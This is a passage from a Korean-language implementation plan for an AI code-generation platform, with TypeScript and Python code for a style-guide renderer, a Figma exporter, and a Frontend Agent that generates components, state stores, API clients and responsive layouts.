        <div class="sg-variant">
          <h4>${variant.name}</h4>
          <div class="sg-variant-examples">
            ${variant.values
              .map(
                (value) => `
              <div class="sg-example">
                <div class="sg-example-preview">
                  ${this.renderComponentExample(component, { [variant.name]: value })}
                </div>
                <code>${value}</code>
              </div>
            `,
              )
              .join('')}
          </div>
        </div>
      `,
        )
        .join('')}
    </div>
  </div>
  
  <div class="sg-subsection">
    <h3>States</h3>
    <div class="sg-states">
      ${component.states
        .map(
          (state) => `
        <div class="sg-state">
          <div class="sg-example-preview">
            ${this.renderComponentExample(component, {}, state.name)}
          </div>
          <code>${state.name}</code>
        </div>
      `,
        )
        .join('')}
    </div>
  </div>
  
  <div class="sg-subsection">
    <h3>Examples</h3>
    ${component.examples
      .map(
        (example) => `
      <div class="sg-code-example">
        <h4>${example.title}</h4>
        <div class="sg-example-preview">
          ${example.preview}
        </div>
        <pre><code class="language-${example.language}">${this.escapeHtml(example.code)}</code></pre>
      </div>
    `,
      )
      .join('')}
  </div>
  
  <div class="sg-subsection">
    <h3>Guidelines</h3>
    <ul class="sg-guidelines">
      ${component.guidelines
        .map(
          (guideline) => `
        <li>
          <strong>${guideline.title}:</strong> ${guideline.description}
        </li>
      `,
        )
        .join('')}
    </ul>
  </div>
  
  <div class="sg-subsection">
    <h3>Accessibility</h3>
    <ul class="sg-accessibility">
      ${component.accessibility
        .map(
          (note) => `
        <li>
          <strong>${note.criterion}:</strong> ${note.description}
        </li>
      `,
        )
        .join('')}
    </ul>
  </div>
</section>`;
  }
}

// 디자인 토큰을 Figma 플러그인 형식으로 내보내기
class FigmaExporter {
  async exportToFigma(styleGuide: StyleGuide): Promise<FigmaPluginData> {
    return {
      name: styleGuide.name,
      colors: this.convertColorsToFigma(styleGuide.theme.colors),
      typography: this.convertTypographyToFigma(styleGuide.theme.typography),
      effects: this.convertEffectsToFigma(styleGuide.theme.shadows),
      spacing: this.convertSpacingToFigma(styleGuide.theme.spacing),
      components: await this.convertComponentsToFigma(styleGuide.components),
    };
  }

  private convertColorsToFigma(colors: ColorPalette): FigmaColorStyles[] {
    const figmaColors: FigmaColorStyles[] = [];

    for (const [category, shades] of Object.entries(colors)) {
      if (typeof shades === 'object' && !Array.isArray(shades)) {
        for (const [shade, color] of Object.entries(shades)) {
          if (typeof color === 'string' && color.startsWith('#')) {
            figmaColors.push({
              name: `${category}/${shade}`,
              color: this.hexToRgb(color),
              description: `${category} color - ${shade} shade`,
            });
          }
        }
      }
    }

    return figmaColors;
  }

  private hexToRgb(hex: string): { r: number; g: number; b: number } {
    const result = /^#?([a-f\d]{2})([a-f\d]{2})([a-f\d]{2})$/i.exec(hex);
    return result
      ? {
          r: parseInt(result[1], 16) / 255,
          g: parseInt(result[2], 16) / 255,
          b: parseInt(result[3], 16) / 255,
        }
      : { r: 0, g: 0, b: 0 };
  }
}
```

**검증 기준**:

- [ ] 컴포넌트별 상세 가이드
- [ ] 인터랙티브 예제 생성
- [ ] Storybook 통합
- [ ] Figma 플러그인 내보내기

---

# Phase 4: 9개 핵심 에이전트 구현 - Part 7 (Tasks 4.13-4.14)

## 3. Frontend Agent (프론트엔드 코드 생성 에이전트)

### Task 4.13: Frontend Agent 코어 구현

#### SubTask 4.13.1: 프론트엔드 코드 생성 엔진

**담당자**: 시니어 프론트엔드 개발자  
**예상 소요시간**: 14시간

**작업 내용**:

```python
# backend/src/agents/implementations/frontend_agent.py
from typing import Dict, List, Optional, Any, Tuple
from dataclasses import dataclass
from enum import Enum
import asyncio
from agno.agent import Agent
from agno.models.aws import AwsBedrock

@dataclass
class FrontendCodeStructure:
    framework: str
    project_name: str
    components: List[ComponentCode]
    pages: List[PageCode]
    layouts: List[LayoutCode]
    routes: RouteConfiguration
    state_management: StateManagementCode
    api_integration: APIIntegrationCode
    styles: StyleConfiguration
    tests: List[TestCode]
    utilities: List[UtilityCode]
    configurations: Dict[str, Any]

@dataclass
class ComponentCode:
    name: str
    type: str  # 'functional', 'class', 'server'
    code: str
    props_interface: Optional[str]
    styles: Optional[str]
    tests: Optional[str]
    storybook: Optional[str]
    dependencies: List[str]

class FrontendAgent:
    """프론트엔드 코드 생성 에이전트"""

    def __init__(self):
        self.code_generator = Agent(
            name="Frontend-Code-Generator",
            model=AwsBedrock(id="anthropic.claude-3-sonnet-v2:0"),
            role="Expert frontend developer specializing in modern web frameworks",
            instructions=[
                "Generate production-ready frontend code based on requirements",
                "Follow framework best practices and conventions",
                "Implement responsive design and accessibility",
                "Create reusable and maintainable components",
                "Include proper TypeScript types when applicable",
                "Generate comprehensive tests for components",
                "Optimize for performance and bundle size"
            ],
            temperature=0.3
        )

        self.component_generator = ComponentGenerator()
        self.page_generator = PageGenerator()
        self.state_manager_generator = StateManagementGenerator()
        self.api_generator = APIIntegrationGenerator()
        self.style_generator = StyleGenerator()
        self.test_generator = TestGenerator()
        self.optimizer = CodeOptimizer()

    async def generate_frontend_code(
        self,
        requirements: ProjectRequirements,
        ui_framework: str,
        ui_library: str,
        design_tokens: Dict[str, Any],
        api_spec: Optional[APISpecification] = None
    ) -> FrontendCodeStructure:
        """프론트엔드 코드 전체 생성"""

        # 1. 프로젝트 구조 설계
        project_structure = await self._design_project_structure(
            requirements,
            ui_framework
        )

        # 2. 컴포넌트 생성
        components = await self._generate_components(
            requirements,
            ui_framework,
            ui_library,
            design_tokens
        )

        # 3. 페이지 생성
        pages = await self._generate_pages(
            requirements,
            ui_framework,
            components
        )

        # 4. 레이아웃 생성
        layouts = await self._generate_layouts(
            requirements,
            ui_framework,
            design_tokens
        )

        # 5. 라우팅 구성
        routes = await self._configure_routing(
            pages,
            ui_framework
        )

        # 6. 상태 관리 설정
        state_management = await self._setup_state_management(
            requirements,
            ui_framework
        )

        # 7. API 통합 코드
        api_integration = await self._generate_api_integration(
            api_spec,
            ui_framework
        )

        # 8. 스타일 시스템
        styles = await self._generate_styles(
            design_tokens,
            ui_framework,
            ui_library
        )

        # 9. 테스트 코드
        tests = await self._generate_tests(
            components,
            pages,
            ui_framework
        )

        # 10. 유틸리티 함수
        utilities = await self._generate_utilities(
            requirements,
            ui_framework
        )

        # 11. 설정 파일
        configurations = await self._generate_configurations(
            ui_framework,
            requirements
        )

        # 12. 코드 최적화
        optimized_structure = await self.optimizer.optimize(
            FrontendCodeStructure(
                framework=ui_framework,
                project_name=requirements.project_name,
                components=components,
                pages=pages,
                layouts=layouts,
                routes=routes,
                state_management=state_management,
                api_integration=api_integration,
                styles=styles,
                tests=tests,
                utilities=utilities,
                configurations=configurations
            )
        )

        return optimized_structure

    async def _generate_components(
        self,
        requirements: ProjectRequirements,
        framework: str,
        ui_library: str,
        design_tokens: Dict[str, Any]
    ) -> List[ComponentCode]:
        """컴포넌트 생성"""

        components = []

        # 요구사항에서 컴포넌트 추출
        component_specs = await self._extract_component_specs(requirements)

        for spec in component_specs:
            # 컴포넌트 타입 결정
            component_type = self._determine_component_type(spec, framework)

            # 컴포넌트 코드 생성
            component_code = await self.component_generator.generate(
                spec,
                framework,
                ui_library,
                component_type,
                design_tokens
            )

            # Props 인터페이스 생성 (TypeScript)
            props_interface = None
            if framework in ['react', 'vue', 'angular'] and spec.get('props'):
                props_interface = await self._generate_props_interface(
                    spec['name'],
                    spec['props']
                )

            # 컴포넌트 스타일 생성
            component_styles = await self.style_generator.generate_component_styles(
                spec,
                design_tokens,
                framework
            )

            # 컴포넌트 테스트 생성
            component_tests = await self.test_generator.generate_component_tests(
                spec,
                framework
            )

            # Storybook 스토리 생성
            storybook_story = await self._generate_storybook_story(
                spec,
                framework
            )

            components.append(ComponentCode(
                name=spec['name'],
                type=component_type,
                code=component_code,
                props_interface=props_interface,
                styles=component_styles,
                tests=component_tests,
                storybook=storybook_story,
                dependencies=self._extract_dependencies(component_code)
            ))

        return components

    async def _extract_component_specs(
        self,
        requirements: ProjectRequirements
    ) -> List[Dict[str, Any]]:
        """요구사항에서 컴포넌트 사양 추출"""

        prompt = f"""
        Extract component specifications from these requirements:

        {requirements.description}
        {requirements.technical_requirements}

        For each component, identify:
        1. Component name
        2. Purpose and functionality
        3. Props/inputs
        4. Events/outputs
        5. State requirements
        6. UI elements needed
        7. Interactions
        8. Data requirements

        Return as structured JSON.
        """

        response = await self.code_generator.arun(prompt)
        return self._parse_component_specs(response)

    def _determine_component_type(
        self,
        spec: Dict[str, Any],
        framework: str
    ) -> str:
        """컴포넌트 타입 결정"""

        if framework == 'nextjs' and spec.get('server_side_only'):
            return 'server'
        elif spec.get('has_state') or spec.get('lifecycle_methods'):
            return 'class' if framework in ['react', 'angular'] else 'functional'
        else:
            return 'functional'

class ComponentGenerator:
    """컴포넌트 코드 생성기"""

    def __init__(self):
        self.templates = self._load_component_templates()
        self.framework_specifics = FrameworkSpecifics()

    async def generate(
        self,
        spec: Dict[str, Any],
        framework: str,
        ui_library: str,
        component_type: str,
        design_tokens: Dict[str, Any]
    ) -> str:
        """컴포넌트 코드 생성"""

        # 프레임워크별 생성 전략
        generators = {
            'react': self._generate_react_component,
            'vue': self._generate_vue_component,
            'angular': self._generate_angular_component,
            'svelte': self._generate_svelte_component,
            'nextjs': self._generate_nextjs_component,
            'solidjs': self._generate_solid_component
        }

        generator = generators.get(framework, self._generate_generic_component)
        return await generator(spec, ui_library, component_type, design_tokens)

    async def _generate_react_component(
        self,
        spec: Dict[str, Any],
        ui_library: str,
        component_type: str,
        design_tokens: Dict[str, Any]
    ) -> str:
        """React 컴포넌트 생성"""

        if component_type == 'functional':
            template = """
import React{hooks} from 'react';
{ui_imports}
{type_imports}
{style_imports}

{props_interface}

export const {component_name}: React.FC<{props_type}> = ({
  {props_destructure}
}) => {
  {state_declarations}
  {effects}
  {handlers}

  return (
    {jsx_content}
  );
};

{display_name}
"""
        else:  # class component
            template = """
import React, { Component } from 'react';
{ui_imports}
{type_imports}
{style_imports}

{props_interface}
{state_interface}

export class {component_name} extends Component<{props_type}, {state_type}> {
  {state_initialization}

  {lifecycle_methods}

  {handlers}

  render() {
    {destructure_state_props}

    return (
      {jsx_content}
    );
  }
}
"""

        # 템플릿 변수 채우기
        hooks = self._get_required_hooks(spec)
        ui_imports = self._generate_ui_imports(ui_library, spec['ui_elements'])
        jsx_content = await self._generate_jsx_content(spec, ui_library)

        code = template.format(
            hooks=hooks,
            ui_imports=ui_imports,
            type_imports=self._generate_type_imports(spec),
            style_imports=self._generate_style_imports(spec),
            props_interface=spec.get('props_interface', ''),
            component_name=spec['name'],
            props_type=f"{spec['name']}Props" if spec.get('props') else '{}',
            props_destructure=self._generate_props_destructure(spec.get('props', [])),
            state_declarations=self._generate_state_declarations(spec.get('state', [])),
            effects=self._generate_effects(spec.get('effects', [])),
            handlers=self._generate_handlers(spec.get('handlers', [])),
            jsx_content=jsx_content,
            display_name=f"\n{spec['name']}.displayName = '{spec['name']}';" if component_type == 'functional' else ''
        )

        return self._format_code(code, 'typescript')

    async def _generate_jsx_content(
        self,
        spec: Dict[str, Any],
        ui_library: str
    ) -> str:
        """JSX 콘텐츠 생성"""

        # UI 라이브러리별 컴포넌트 매핑
        ui_mappings = {
            'mui': {
                'button': 'Button',
                'input': 'TextField',
                'select': 'Select',
                'card': 'Card',
                'grid': 'Grid',
                'modal': 'Dialog'
            },
            'antd': {
                'button': 'Button',
                'input': 'Input',
                'select': 'Select',
                'card': 'Card',
                'grid': 'Row, Col',
                'modal': 'Modal'
            },
            'chakra': {
                'button': 'Button',
                'input': 'Input',
                'select': 'Select',
                'card': 'Box',
                'grid': 'Grid, GridItem',
                'modal': 'Modal'
            }
        }

        # JSX 구조 생성
        jsx_structure = await self._build_jsx_structure(
            spec['ui_elements'],
            ui_mappings.get(ui_library, {})
        )

        return jsx_structure
```

**검증 기준**:

- [ ] 다양한 프레임워크 지원
- [ ] 컴포넌트 타입별 생성
- [ ] UI 라이브러리 통합
- [ ] TypeScript 지원

#### SubTask 4.13.2: 상태 관리 및 데이터 플로우

**담당자**: 프론트엔드 아키텍트  
**예상 소요시간**: 12시간

**작업 내용**:

```typescript
// backend/src/agents/implementations/state-management-generator.ts
interface StateManagementStrategy {
  type: 'redux' | 'mobx' | 'zustand' | 'context' | 'vuex' | 'pinia' | 'signals';
  stores: StateStore[];
  actions: StateAction[];
  selectors: StateSelector[];
  middleware: Middleware[];
  devtools: boolean;
}

interface StateStore {
  name: string;
  initialState: any;
  reducers?: Record<string, Function>;
  actions?: Record<string, Function>;
  getters?: Record<string, Function>;
  mutations?: Record<string, Function>;
}

class StateManagementGenerator {
  private strategyAnalyzer: StateStrategyAnalyzer;
  private storeGenerator: StoreGenerator;
  private actionGenerator: ActionGenerator;

  async setupStateManagement(
    requirements: ProjectRequirements,
    framework: string,
    complexity: ProjectComplexity,
  ): Promise<StateManagementCode> {
    // 1. 상태 관리 전략 선택
    const strategy = await this.selectStrategy(requirements, framework, complexity);

    // 2. 상태 구조 설계
    const stateStructure = await this.designStateStructure(requirements);

    // 3. 스토어 생성
    const stores = await this.generateStores(stateStructure, strategy);

    // 4. 액션/리듀서 생성
    const actions = await this.generateActions(stateStructure, strategy);

    // 5. 셀렉터/게터 생성
    const selectors = await this.generateSelectors(stateStructure, strategy);

    // 6. 미들웨어 설정
    const middleware = await this.configureMiddleware(requirements, strategy);

    // 7. 통합 코드 생성
    const integrationCode = await this.generateIntegrationCode(
      strategy,
      stores,
      actions,
      selectors,
      middleware,
      framework,
    );

    return {
      strategy,
      stores,
      actions,
      selectors,
      middleware,
      integrationCode,
      typeDefinitions: await this.generateTypeDefinitions(stateStructure),
    };
  }

  private async selectStrategy(
    requirements: ProjectRequirements,
    framework: string,
    complexity: ProjectComplexity,
  ): Promise<StateManagementStrategy> {
    // 프레임워크별 기본 전략
    const frameworkDefaults = {
      react: ['redux', 'zustand', 'context'],
      vue: ['pinia', 'vuex'],
      angular: ['ngrx', 'akita'],
      svelte: ['svelte/store', 'redux'],
      solidjs: ['solid-js/store', 'signals'],
    };

    // 복잡도에 따른 선택
    if (complexity.level === 'simple') {
      if (framework === 'react') return { type: 'context', ...this.getContextConfig() };
      if (framework === 'vue') return { type: 'pinia', ...this.getPiniaConfig() };
    }

    if (complexity.level === 'complex' || requirements.features.includes('real-time')) {
      if (framework === 'react') return { type: 'redux', ...this.getReduxConfig() };
      if (framework === 'vue') return { type: 'vuex', ...this.getVuexConfig() };
    }

    // 중간 복잡도
    if (framework === 'react') return { type: 'zustand', ...this.getZustandConfig() };
    if (framework === 'vue') return { type: 'pinia', ...this.getPiniaConfig() };

    // 기본값
    return {
      type: 'context',
      stores: [],
      actions: [],
      selectors: [],
      middleware: [],
      devtools: true,
    };
  }

  private async generateStores(
    stateStructure: StateStructure,
    strategy: StateManagementStrategy,
  ): Promise<StateStore[]> {
    const stores: StateStore[] = [];

    for (const domain of stateStructure.domains) {
      const store = await this.generateDomainStore(domain, strategy.type);
      stores.push(store);
    }

    // 글로벌 스토어
    if (stateStructure.globalState) {
      stores.push(await this.generateGlobalStore(stateStructure.globalState, strategy.type));
    }

    return stores;
  }

  private async generateDomainStore(
    domain: StateDomain,
    strategyType: string,
  ): Promise<StateStore> {
    switch (strategyType) {
      case 'redux':
        return this.generateReduxStore(domain);
      case 'zustand':
        return this.generateZustandStore(domain);
      case 'pinia':
        return this.generatePiniaStore(domain);
      case 'vuex':
        return this.generateVuexStore(domain);
      default:
        return this.generateContextStore(domain);
    }
  }

  private generateReduxStore(domain: StateDomain): StateStore {
    const sliceCode = `
import { createSlice, PayloadAction } from '@reduxjs/toolkit';
import { ${domain.name}State, ${domain.name}Actions } from './types';

const initialState: ${domain.name}State = ${JSON.stringify(domain.initialState, null, 2)};

const ${domain.name.toLowerCase()}Slice = createSlice({
  name: '${domain.name.toLowerCase()}',
  initialState,
  reducers: {
    ${Object.entries(domain.actions)
      .map(
        ([actionName, actionDef]) => `
    ${actionName}: (state, action: PayloadAction<${actionDef.payload}>) => {
      ${this.generateReducerLogic(actionName, actionDef)}
    },`,
      )
      .join('\n')}
  },
  extraReducers: (builder) => {
    ${this.generateAsyncReducers(domain.asyncActions)}
  }
});

export const { ${Object.keys(domain.actions).join(', ')} } = ${domain.name.toLowerCase()}Slice.actions;
export default ${domain.name.toLowerCase()}Slice.reducer;

// Selectors
${this.generateReduxSelectors(domain)}

// Thunks
${this.generateReduxThunks(domain.asyncActions)}
`;

    return {
      name: domain.name,
      initialState: domain.initialState,
      code: sliceCode,
    };
  }

  private generateZustandStore(domain: StateDomain): StateStore {
    const storeCode = `
import { create } from 'zustand';
import { devtools, persist } from 'zustand/middleware';
import { immer } from 'zustand/middleware/immer';
import { ${domain.name}State, ${domain.name}Actions } from './types';

interface ${domain.name}Store extends ${domain.name}State, ${domain.name}Actions {}

export const use${domain.name}Store = create<${domain.name}Store>()(
  devtools(
    persist(
      immer((set, get) => ({
        // Initial state
        ${Object.entries(domain.initialState)
          .map(([key, value]) => `${key}: ${JSON.stringify(value)},`)
          .join('\n        ')}
        
        // Actions
        ${Object.entries(domain.actions)
          .map(
            ([actionName, actionDef]) => `
        ${actionName}: (${actionDef.params.join(', ')}) => set((state) => {
          ${this.generateZustandActionLogic(actionName, actionDef)}
        }),`,
          )
          .join('\n')}
        
        // Async actions
        ${Object.entries(domain.asyncActions || {})
          .map(
            ([actionName, actionDef]) => `
        ${actionName}: async (${actionDef.params.join(', ')}) => {
          ${this.generateZustandAsyncLogic(actionName, actionDef)}
        },`,
          )
          .join('\n')}
        
        // Computed values
        ${Object.entries(domain.computed || {})
          .map(
            ([computedName, computedDef]) => `
        get ${computedName}() {
          const state = get();
          ${computedDef.logic}
        },`,
          )
          .join('\n')}
      })),
      {
        name: '${domain.name.toLowerCase()}-storage',
        ${domain.persistConfig ? `partialize: (state) => ({ ${domain.persistConfig.keys.join(', ')} }),` : ''}
      }
    ),
    {
      name: '${domain.name}Store',
    }
  )
);

// Hooks
export const use${domain.name} = () => use${domain.name}Store((state) => state);
${this.generateZustandSelectors(domain)}
`;

    return {
      name: domain.name,
      initialState: domain.initialState,
      code: storeCode,
    };
  }

  private generatePiniaStore(domain: StateDomain): StateStore {
    const storeCode = `
import { defineStore } from 'pinia';
import { ref, computed } from 'vue';
import type { ${domain.name}State } from './types';

export const use${domain.name}Store = defineStore('${domain.name.toLowerCase()}', () => {
  // State
  ${Object.entries(domain.initialState)
    .map(([key, value]) => `const ${key} = ref(${JSON.stringify(value)});`)
    .join('\n  ')}
  
  // Getters
  ${Object.entries(domain.computed || {})
    .map(
      ([computedName, computedDef]) => `
  const ${computedName} = computed(() => {
    ${computedDef.logic}
  });`,
    )
    .join('\n')}
  
  // Actions
  ${Object.entries(domain.actions)
    .map(
      ([actionName, actionDef]) => `
  function ${actionName}(${actionDef.params.join(', ')}) {
    ${this.generatePiniaActionLogic(actionName, actionDef)}
  }`,
    )
    .join('\n\n  ')}
  
  // Async actions
  ${Object.entries(domain.asyncActions || {})
    .map(
      ([actionName, actionDef]) => `
  async function ${actionName}(${actionDef.params.join(', ')}) {
    ${this.generatePiniaAsyncLogic(actionName, actionDef)}
  }`,
    )
    .join('\n\n  ')}
  
  return {
    // State
    ${Object.keys(domain.initialState).join(',\n    ')},
    
    // Getters
    ${Object.keys(domain.computed || {}).join(',\n    ')},
    
    // Actions
    ${Object.keys({ ...domain.actions, ...domain.asyncActions }).join(',\n    ')}
  };
}, {
  persist: ${domain.persistConfig ? JSON.stringify(domain.persistConfig) : 'false'}
});
`;

    return {
      name: domain.name,
      initialState: domain.initialState,
      code: storeCode,
    };
  }

  async generateIntegrationCode(
    strategy: StateManagementStrategy,
    stores: StateStore[],
    actions: StateAction[],
    selectors: StateSelector[],
    middleware: Middleware[],
    framework: string,
  ): Promise<string> {
    switch (strategy.type) {
      case 'redux':
        return this.generateReduxIntegration(stores, middleware, framework);
      case 'zustand':
        return this.generateZustandIntegration(stores, framework);
      case 'pinia':
        return this.generatePiniaIntegration(stores, framework);
      case 'context':
        return this.generateContextIntegration(stores, framework);
      default:
        throw new Error(`Unsupported state management: ${strategy.type}`);
    }
  }

  private generateReduxIntegration(
    stores: StateStore[],
    middleware: Middleware[],
    framework: string,
  ): string {
    return `
import { configureStore } from '@reduxjs/toolkit';
import { TypedUseSelectorHook, useDispatch, useSelector } from 'react-redux';
${stores.map((store) => `import ${store.name.toLowerCase()}Reducer from './slices/${store.name.toLowerCase()}Slice';`).join('\n')}
${middleware.map((m) => `import ${m.name} from './middleware/${m.name}';`).join('\n')}

export const store = configureStore({
  reducer: {
    ${stores.map((store) => `${store.name.toLowerCase()}: ${store.name.toLowerCase()}Reducer,`).join('\n    ')}
  },
  middleware: (getDefaultMiddleware) =>
    getDefaultMiddleware({
      serializableCheck: {
        ignoredActions: ['persist/PERSIST'],
      },
    })${middleware.length > 0 ? `.concat(${middleware.map((m) => m.name).join(', ')})` : ''},
  devTools: process.env.NODE_ENV !== 'production',
});

export type RootState = ReturnType<typeof store.getState>;
export type AppDispatch = typeof store.dispatch;

// Typed hooks
export const useAppDispatch = () => useDispatch<AppDispatch>();
export const useAppSelector: TypedUseSelectorHook<RootState> = useSelector;

// Provider component
export const StoreProvider: React.FC<{ children: React.ReactNode }> = ({ children }) => (
  <Provider store={store}>{children}</Provider>
);
`;
  }
}

// API 통합 생성기
class APIIntegrationGenerator {
  async generateAPIIntegration(
    apiSpec: APISpecification,
    framework: string,
    stateManagement: StateManagementStrategy,
  ): Promise<APIIntegrationCode> {
    const client = await this.generateAPIClient(apiSpec);
    const hooks = await this.generateAPIHooks(apiSpec, framework);
    const interceptors = await this.generateInterceptors(apiSpec);
    const errorHandling = await this.generateErrorHandling();

    return {
      client,
      hooks,
      interceptors,
      errorHandling,
      types: await this.generateAPITypes(apiSpec),
    };
  }

  private async generateAPIClient(apiSpec: APISpecification): Promise<string> {
    return `
import axios, { AxiosInstance, AxiosRequestConfig, AxiosResponse } from 'axios';
import { API_BASE_URL, API_TIMEOUT } from '@/config/api';
import { getAuthToken, refreshToken } from '@/utils/auth';
import { ApiError, ApiResponse } from './types';

class APIClient {
  private instance: AxiosInstance;
  
  constructor() {
    this.instance = axios.create({
      baseURL: API_BASE_URL,
      timeout: API_TIMEOUT,
      headers: {
        'Content-Type': 'application/json',
      },
    });
    
    this.setupInterceptors();
  }
  
  private setupInterceptors() {
    // Request interceptor
    this.instance.interceptors.request.use(
      async (config) => {
        const token = await getAuthToken();
        if (token) {
          config.headers.Authorization = \`Bearer \${token}\`;
        }
        return config;
      },
      (error) => Promise.reject(error)
    );
    
    // Response interceptor
    this.instance.interceptors.response.use(
      (response) => response,
      async (error) => {
        if (error.response?.status === 401) {
          const newToken = await refreshToken();
          if (newToken) {
            error.config.headers.Authorization = \`Bearer \${newToken}\`;
            return this.instance.request(error.config);
          }
        }
        return Promise.reject(this.handleError(error));
      }
    );
  }
  
  private handleError(error: any): ApiError {
    if (error.response) {
      return {
        code: error.response.status,
        message: error.response.data?.message || 'Server error',
        details: error.response.data,
      };
    } else if (error.request) {
      return {
        code: 0,
        message: 'Network error',
        details: error.request,
      };
    }
    return {
      code: -1,
      message: error.message || 'Unknown error',
      details: error,
    };
  }
  
  // HTTP methods
  async get<T>(url: string, config?: AxiosRequestConfig): Promise<ApiResponse<T>> {
    const response = await this.instance.get<T>(url, config);
    return this.handleResponse(response);
  }
  
  async post<T>(url: string, data?: any, config?: AxiosRequestConfig): Promise<ApiResponse<T>> {
    const response = await this.instance.post<T>(url, data, config);
    return this.handleResponse(response);
  }
  
  async put<T>(url: string, data?: any, config?: AxiosRequestConfig): Promise<ApiResponse<T>> {
    const response = await this.instance.put<T>(url, data, config);
    return this.handleResponse(response);
  }
  
  async delete<T>(url: string, config?: AxiosRequestConfig): Promise<ApiResponse<T>> {
    const response = await this.instance.delete<T>(url, config);
    return this.handleResponse(response);
  }
  
  private handleResponse<T>(response: AxiosResponse<T>): ApiResponse<T> {
    return {
      data: response.data,
      status: response.status,
      headers: response.headers,
    };
  }
}

export const apiClient = new APIClient();

// API endpoint functions
${this.generateEndpointFunctions(apiSpec)}
`;
  }

  private async generateAPIHooks(apiSpec: APISpecification, framework: string): Promise<string> {
    if (framework === 'react' || framework === 'nextjs') {
      return this.generateReactQueryHooks(apiSpec);
    } else if (framework === 'vue') {
      return this.generateVueQueryHooks(apiSpec);
    }
    return '';
  }

  private generateReactQueryHooks(apiSpec: APISpecification): string {
    return `
import { useQuery, useMutation, useQueryClient } from '@tanstack/react-query';
import * as api from './api';
import { toast } from 'react-toastify';

${apiSpec.endpoints
  .map((endpoint) => {
    const hookName = `use${this.toPascalCase(endpoint.operationId)}`;

    if (endpoint.method === 'GET') {
      return `
export const ${hookName} = (${this.generateHookParams(endpoint)}) => {
  return useQuery({
    queryKey: ['${endpoint.operationId}', ${this.generateQueryKey(endpoint)}],
    queryFn: () => api.${endpoint.operationId}(${this.generateApiCallParams(endpoint)}),
    ${this.generateQueryOptions(endpoint)}
  });
};`;
    } else {
      return `
export const ${hookName} = () => {
  const queryClient = useQueryClient();
  
  return useMutation({
    mutationFn: (data: ${endpoint.requestBody?.type || 'any'}) => 
      api.${endpoint.operationId}(data),
    onSuccess: (data) => {
      ${this.generateInvalidationLogic(endpoint)}
      toast.success('${this.generateSuccessMessage(endpoint)}');
    },
    onError: (error: ApiError) => {
      toast.error(error.message || '${this.generateErrorMessage(endpoint)}');
    },
  });
};`;
    }
  })
  .join('\n')}

// Prefetch functions
${this.generatePrefetchFunctions(apiSpec)}

// Optimistic updates
${this.generateOptimisticUpdates(apiSpec)}
`;
  }
}
```

**검증 기준**:

- [ ] 다양한 상태 관리 라이브러리 지원
- [ ] 프레임워크별 최적화
- [ ] API 통합 자동화
- [ ] TypeScript 타입 안전성

#### SubTask 4.13.3: 반응형 및 적응형 UI 구현

**담당자**: UI 개발자  
**예상 소요시간**: 10시간

**작업 내용**:

```typescript
// backend/src/agents/implementations/responsive-ui-generator.ts
interface ResponsiveUIImplementation {
  breakpoints: Breakpoint[];
  layouts: ResponsiveLayout[];
  components: ResponsiveComponent[];
  utilities: ResponsiveUtility[];
  hooks: ResponsiveHook[];
}

class ResponsiveUIGenerator {
  private layoutGenerator: LayoutGenerator;
  private breakpointManager: BreakpointManager;
  private componentAdapter: ComponentAdapter;

  async generateResponsiveUI(
    components: ComponentCode[],
    designSystem: DesignSystem,
    framework: string,
    strategy: ResponsiveStrategy,
  ): Promise<ResponsiveUIImplementation> {
    // 1. 브레이크포인트 시스템 설정
    const breakpoints = await this.setupBreakpoints(designSystem.breakpoints, framework);

    // 2. 반응형 레이아웃 생성
    const layouts = await this.generateResponsiveLayouts(
      designSystem.layouts,
      breakpoints,
      framework,
    );

    // 3. 컴포넌트 반응형 변환
    const responsiveComponents = await this.transformComponents(components, breakpoints, strategy);

    // 4. 유틸리티 클래스/함수 생성
    const utilities = await this.generateResponsiveUtilities(breakpoints, framework);

    // 5. 반응형 훅 생성
    const hooks = await this.generateResponsiveHooks(breakpoints, framework);

    return {
      breakpoints,
      layouts,
      components: responsiveComponents,
      utilities,
      hooks,
    };
  }

  private async generateResponsiveLayouts(
    layoutSpecs: LayoutSpecification[],
    breakpoints: Breakpoint[],
    framework: string,
  ): Promise<ResponsiveLayout[]> {
    const layouts: ResponsiveLayout[] = [];

    for (const spec of layoutSpecs) {
      const layout = await this.layoutGenerator.generate(spec, breakpoints, framework);

      layouts.push(layout);
    }

    // 기본 레이아웃들
    layouts.push(
      await this.generateGridLayout(breakpoints, framework),
      await this.generateFlexLayout(breakpoints, framework),
      await this.generateSidebarLayout(breakpoints, framework),
      await this.generateHeroLayout(breakpoints, framework),
    );

    return layouts;
  }

  private async generateGridLayout(
    breakpoints: Breakpoint[],
    framework: string,
  ): Promise<ResponsiveLayout> {
    const gridCode = `
${framework === 'react' ? 'import React from "react";' : ''}
import { cn } from '@/utils/cn';
${this.getFrameworkSpecificImports(framework)}

interface GridProps {
  children: React.ReactNode;
  cols?: {
    default?: number;
    sm?: number;
    md?: number;
    lg?: number;
    xl?: number;
  };
  gap?: number;
  className?: string;
}

export const ResponsiveGrid${this.getComponentSignature(framework)} = ({
  children,
  cols = { default: 1, sm: 2, md: 3, lg: 4 },
  gap = 4,
  className
}: GridProps) => {
  const gridClasses = cn(
    'grid',
    // Column classes
    cols.default && \`grid-cols-\${cols.default}\`,
    cols.sm && \`sm:grid-cols-\${cols.sm}\`,
    cols.md && \`md:grid-cols-\${cols.md}\`,
    cols.lg && \`lg:grid-cols-\${cols.lg}\`,
    cols.xl && \`xl:grid-cols-\${cols.xl}\`,
    // Gap
    \`gap-\${gap}\`,
    className
  );
  
  return (
    <div className={gridClasses}>
      {children}
    </div>
  );
};

// Auto-responsive grid
export const AutoGrid${this.getComponentSignature(framework)} = ({
  children,
  minChildWidth = 250,
  gap = 4,
  className
}: {
  children: React.ReactNode;
  minChildWidth?: number;
  gap?: number;
  className?: string;
}) => {
  return (
    <div 
      className={cn('grid', \`gap-\${gap}\`, className)}
      style={{
        gridTemplateColumns: \`repeat(auto-fit, minmax(\${minChildWidth}px, 1fr))\`
      }}
    >
      {children}
    </div>
  );
};
`;

    return {
      name: 'ResponsiveGrid',
      code: gridCode,
      type: 'grid',
      breakpoints: breakpoints.map((bp) => bp.name),
    };
  }

  private async transformComponents(
    components: ComponentCode[],
    breakpoints: Breakpoint[],
    strategy: ResponsiveStrategy,
  ): Promise<ResponsiveComponent[]> {
    const responsiveComponents: ResponsiveComponent[] = [];

    for (const component of components) {
      const responsiveVersion = await this.makeComponentResponsive(
        component,
        breakpoints,
        strategy,
      );

      responsiveComponents.push(responsiveVersion);
    }

    return responsiveComponents;
  }

  private async makeComponentResponsive(
    component: ComponentCode,
    breakpoints: Breakpoint[],
    strategy: ResponsiveStrategy,
  ): Promise<ResponsiveComponent> {
